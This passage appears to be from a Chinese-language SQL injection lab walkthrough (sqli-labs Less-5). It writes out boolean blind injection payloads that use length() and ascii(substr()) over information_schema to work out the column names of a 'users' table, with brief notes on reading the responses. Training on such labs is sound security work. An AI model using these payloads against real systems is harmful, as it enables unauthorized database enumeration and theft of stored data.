 根据<code>ASCII</code>表说明联合数据表名第一个字符是<code>e</code>，其余字符的爆破省略



+ 爆破联合字段名长度

~~~ shell
?id=1'and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))=20--+
判断所有字段名的长度
~~~

![Less-5_10](./img/Less-5_10.PNG)

返回了正确页面，说明联合字段名长度是20



+ 注入以下语句逐一爆破字段名

~~~ shell
?id=1'and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
逐一判断字段名
~~~
